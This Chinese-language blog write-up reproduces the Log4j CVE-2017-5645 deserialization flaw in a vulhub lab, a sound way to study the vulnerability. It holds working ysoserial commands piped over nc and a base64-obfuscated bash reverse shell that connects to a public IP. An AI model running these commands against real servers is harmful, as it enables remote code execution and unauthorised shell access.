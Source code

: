 # Apache Log4j Server 反序列化命令执行漏洞（CVE-2017-5645）

**Apache [Log4j](https://so.csdn.net/so/search?q=Log4j&spm=1001.2101.3001.7020)是一个用于Java的日志记录库，其支持启动远程日志服务器，能够控制日志的输出格式与目的地。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码**



# 影响版本

- Log4j<2.8.2



# 漏洞复现

使用vulhub的靶场，开启后该环境默认端口为4712

需要下载一个jar包

![image-20220604124643005](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220604124643005.png)

使用刚才下载的ysoserial生成payload，发送给目标服务器的4712端口，使其加载执行代码

```
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections5 "touch /tmp/CVE‐2017‐5645" | nc 192.168.159.129 4712
```

![image-20220604124937959](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220604124937959.png)

可以看到该payload成功执行

![image-20220604125032427](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220604125032427.png)



# 反弹shell

如上操作，将payload改成base64加密后进行发送

```
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIxLjE4NC4yMjQvNTIwMCAwPiYx}|{base64,-d}|{bash,-i}" | nc 192.168.159.129 4712
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/57bcf63068cb46fe8be4c6018e3ebda5.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAWXN0ZXJDY2M=,size_20,color_FFFFFF,t_70,g_se,x_16)

准备一台公网服务器，开启nc监听（用于探测漏洞）

使用nc监听刚刚反弹shell的端口

![img](https://img-blog.csdnimg.cn/20210118181111506.png)

![image-20220610223814985](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220610223814985.png)

成功获得shell



# 修复建议

升级到最新版本